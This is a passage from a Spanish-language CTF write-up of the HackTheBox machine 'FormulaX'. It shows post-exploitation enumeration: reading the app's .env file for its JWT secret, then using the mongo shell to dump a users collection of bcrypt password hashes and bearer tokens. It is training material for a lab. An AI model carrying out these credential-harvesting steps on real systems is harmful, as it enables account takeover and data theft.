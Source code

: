 Lo podemos ver mediante el comando `netstat -tulnp` o revisando el archivo `.env` de la aplicación.
```venv
www-data@formulax:~/app$ cat .env
cat .env
PORT = 8082
URL_DATABASE="mongodb://localhost:27017"
SECRET=ThisIsTheN0deSecret
ADMIN_EMAIL="admin@chatbot.htb"
```

con `mongo --shell` podemos hacer peticiones mediante el CLI.

Enumerando las Bases de Datos vemos las siguientes
```mongo
show dbs
admin    0.000GB
config   0.000GB
local    0.000GB
testing  0.000GB
```

Enumerando las "tablas" (colecciones en mongo), la única que me llaman la atención es `messages` y `users`

```mongo
use admin
switched to db admin
show collections
system.version
use config
switched to db config
show collections
system.sessions
use local
switched to db local
show collections
startup_log
use testing
switched to db testing
show collections
messages
users
```

La colección de mensajes está vacía pero la de usuarios no.
```mongo
db.messages.find()

db.users.find()
{ "_id" : ObjectId("648874de313b8717284f457c"), "name" : "admin", "email" : "admin@chatbot.htb", "password" : "$2b$10$VSrvhM/5YGM0uyCeEYf/TuvJzzTz.jDLVJ2QqtumdDoKGSa.6aIC.", "terms" : true, "value" : true, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NDg4NzRkZTMxM2I4NzE3Mjg0ZjQ1N2MiLCJpYXQiOjE3MjI0NDA0MDh9.q_R-YzbX7fuJigMJuVCeuIIlr3WhWPQSwHd5HkU9BYs", "__v" : 0 }
{ "_id" : ObjectId("648874de313b8717284f457d"), "name" : "frank_dorky", "email" : "frank_dorky@chatbot.htb", "password" : "$2b$10$hrB/by.tb/4ABJbbt1l4/ep/L4CTY6391eSETamjLp7s.elpsB4J6", "terms" : true, "value" : true, "authorization_token" : " ", "__v" : 0 }
{ "_id" : ObjectId("66aa51b7af10999e6470d490"), "name" : "pointed", "email" : "pointed@pointed.com", "password" : "$2b$10$zhNJTJtpGe3/6QILJisd6uednRpMdaTopmes6TCgFL1KFkGQdjdpq", "terms" : true, "value" : false, "authorization_token" : "Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySUQiOiI2NmFhNTFiN2FmMTA5OTllNjQ3MGQ0OTAiLCJpYXQiOjE3MjI0Mzg1NzZ9.EpNX-g0c9erS1XM7BDde8nLVhkDkzhpkoeTBV8fRKug", "__v" : 0 }
```
